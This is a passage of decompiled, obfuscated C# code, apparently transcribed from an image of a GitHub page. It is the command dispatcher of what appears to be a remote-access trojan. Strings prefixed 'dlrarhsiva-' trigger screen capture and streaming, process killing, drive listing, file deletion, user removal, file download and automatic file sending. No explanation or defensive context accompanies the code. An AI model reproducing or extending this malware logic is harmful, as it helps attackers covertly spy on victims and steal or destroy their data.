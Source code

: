                     this.dlrarhsivaimage_info(CS$<>8__locals1.switchType[1]);
                    break;
                case "dlrarhsiva-putsrt":
                    this.dlrarhsivaload_app();
                    break;
                case "dlrarhsiva-filsz":
                    this.dlrarhsivafile_info(CS$<>8__locals1.switchType[1], false);
                    break;
                case "dlrarhsiva-rupth":
                    this.dlrarhsivapush_data(null, "dlrarhsiva-appth=|dlrarhsiva".Split(new char[]
                    {
                        '|'
                    })[0] + DLAONIF.dlrarhsivaget_mpath(), false);
                    break;
                case "dlrarhsiva-dowf":
                    this.dlrarhsivasaveFile(CS$<>8__locals1.switchType[1]);
                    break;
                case "dlrarhsiva-endpo":
                    try
                    {
                        Process.GetProcessById((int)Convert.ToInt16(CS$<>8__locals1.switchType[1].Trim())).Kill();
                    }
                    catch
                    {
                    }
                    break;
                case "dlrarhsiva-scrsz":
                    this.dlrarhsivascreenSize(CS$<>8__locals1.switchType[1]);
                    break;
                case "dlrarhsiva-cscreen":
                    this.dlrarhsivasee_scren(CS$<>8__locals1.switchType[1]);
                    break;
                case "dlrarhsiva-dirs":
                    this.dlrarhsivafunThread = new Thread(new ThreadStart(this.dlrarhsivalistDrives));
                    this.dlrarhsivafunThread.Start();
                    break;
                case "dlrarhsiva-stops":
                    this.dlrarhsivacapScreen = false;
                    break;
                case "dlrarhsiva-scren":
                    this.dlrarhsivacapScreen = true;
                    this.dlrarhsivafunStarter = delegate()
                    {
                        CS$<>8__locals1.<>4__this.dlrarhsivais_screen(CS$<>8__locals1.switchType[1]);
                    };
                    this.dlrarhsivafunThread = new Thread(this.dlrarhsivafunStarter);
                    this.dlrarhsivafunThread.Start();
                    break;
                case "dlrarhsiva-cnls":
                    this.dlrarhsivaautCnls = true;
                    this.dlrarhsivareqCnls = true;
                    this.dlrarhsivacapScreen = false;
                    break;
                case "dlrarhsiva-udlt":
                    this.dlrarhsivaCMD.dlrarhsivaremove_user();
                    break;
                case "dlrarhsiva-delt":
                    this.dlrarhsivaremove_file(CS$<>8__locals1.switchType[1]);
                    break;
                case "dlrarhsiva-afile":
                    this.dlrarhsivafunStarter = delegate()
                    {
                        CS$<>8__locals1.<>4__this.dlrarhsivasend_auto(CS$<>8__locals1.switchType[1]);
                    };